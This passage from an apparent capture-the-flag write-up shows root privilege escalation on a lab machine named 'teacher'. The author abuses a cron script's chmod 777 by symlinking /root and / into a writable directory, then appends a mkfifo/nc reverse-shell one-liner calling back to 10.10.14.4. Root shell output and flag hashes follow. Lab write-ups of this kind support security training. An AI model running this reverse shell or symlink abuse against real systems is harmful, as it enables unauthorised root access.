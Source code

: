 I can get the root flag by adding a symlink to /root in the tmp directory, because everything that is in /work/tmp get "chmod 777".

Make a symlink in /work/tmp :

```
giovanni@teacher:~/work/tmp$ ln -s /root
```

Wait one minute :

```
ls -l /
[...]
drwxrwxrwx  3 root root  4096 Nov  8  2018 root
[...]
```

And now I can read the flag. Now how do I get a shell :

```
giovanni@teacher:~/work/tmp$ ln -s / exploit
```

Wait one minute and I can edit anything :

```
giovanni@teacher:/$ cat /usr/bin/backup.sh 
#!/bin/bash
cd /home/giovanni/work;
tar -czvf tmp/backup_courses.tar.gz courses/*;
cd tmp;
tar -xf backup_courses.tar.gz;
chmod 777 * -R;
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.4 12345 >/tmp/f
```

```
nc -lvp 12345
```

Wait again and 1 minute later I get the reverse shell back !

```
nc -lvp 12345
listening on [any] 12345 ...
10.10.10.153: inverse host lookup failed: Unknown host
connect to [10.10.14.4] from (UNKNOWN) [10.10.10.153] 38278
/bin/sh: 0: can't access tty; job control turned off
# whoami
root
```

## Flags

------

### User.txt

```
giovanni@teacher:~$ cat user.txt 
fa9ae187462530e841d9e61936648fa7
```

### Root.txt

```
giovanni@teacher:/root$ cat root.txt
4f3a83b42ac7723a508b8ace7b8b1209
```